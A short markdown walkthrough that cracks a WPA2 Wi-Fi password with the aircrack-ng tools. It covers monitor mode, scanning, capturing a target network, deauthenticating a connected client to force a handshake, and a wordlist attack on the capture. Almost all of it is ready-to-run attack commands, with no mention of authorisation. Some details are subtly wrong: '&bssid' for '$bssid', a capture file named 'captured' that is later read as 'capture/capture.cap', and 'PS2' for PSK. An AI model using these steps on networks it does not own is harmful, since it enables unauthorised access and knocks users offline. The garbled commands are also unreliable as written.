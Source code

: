 # WPA PS2 Exploit Walkthrough
> 08.08.2024
---

First connect to a wifi card!

**Put wifi card to monitor mode:**
```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
```
wlan0 -> wlan0mon

**Find wireless network:**
```bash
airodump-ng wlan0mon
```
this will dump networks in the near with informations like:
- BSSID
- Power level
- Beacons
- Data
- Channel
- Encryption used
- CIPHER
- AUTH Method
- ESSID

**Listening to a specific network:**
```bash
airodump-ng -c $channel --bssid $bssid -w captured wlan0mon
```

**Deauth users for triggering reconnect:**
```bash
aireplay-ng -0 1 -a &bssid -c $station wlan0mon
```
If a device was deauthed and then reconnected, one should be able to capture a WPA handshake!

**Viewing the handshake:**
```bash
cd capture
wireshark capture.cap
```

**Cracking the password with aircrack-ng:**
```bash
aircrack-ng -w wordlists.txt -b $bssid capture.cap
```

